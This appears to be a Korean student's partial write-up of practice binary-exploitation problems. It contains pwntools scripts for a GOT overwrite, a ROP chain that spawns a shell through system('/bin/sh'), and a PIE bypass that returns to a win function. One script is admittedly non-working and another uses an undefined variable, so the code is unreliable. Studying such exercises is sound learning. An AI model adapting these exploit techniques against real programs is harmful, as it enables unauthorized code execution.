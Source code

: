 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다.

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')
libc = e.libc
rop = ROP(e)

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

pie_base = printf_addr - 0x1040

pop_rdi = pie_base + (rop.find_gadget(['pop rdi', 'ret']))[0]

log.info("libc base : %s"%hex(libc_base))
log.info("system addr : %s"%hex(system_addr))
log.info("pop rid: %s"%hex(pop_rdi))


payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
#payload += p64(pop_rdi+1)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()

```

익스플로잇이 되지 않는다. rop gadget은 PIE로 랜덤화되기 때문에 libc base를 같이 사용하면 안 되기 때문인가? 잘 모르겠다...ㅜㅜ 풀지 못했다.




## problem 3-2

마찬가지로 ROP 문제이다. read를 활용하여 



## problem 4

pie를 우회하는 문제이다. main addr에서 main의 offset을 빼서 pie base를 구한 뒤 win의 실제 주소를 구하고 그것을 ret에 덮어쓰면 된다.


```python

from pwn import *

p = process('./simple_pie_32')
e = ELF('./simple_pie_32')
libc = e.libc
rop = ROP(e)

p.recvuntil(b'at : 0x')
main_addr = int(p.recvline(), 16)
pie_base = main_addr - 0x122d
win_addr = pie_base + 0x1291

payload += b'A'*0x1c
payload += b'A'*0x4
payload += p32(win_addr)


p.sendline(payload)

p.interactive()

```



## problem 5




## problem 6






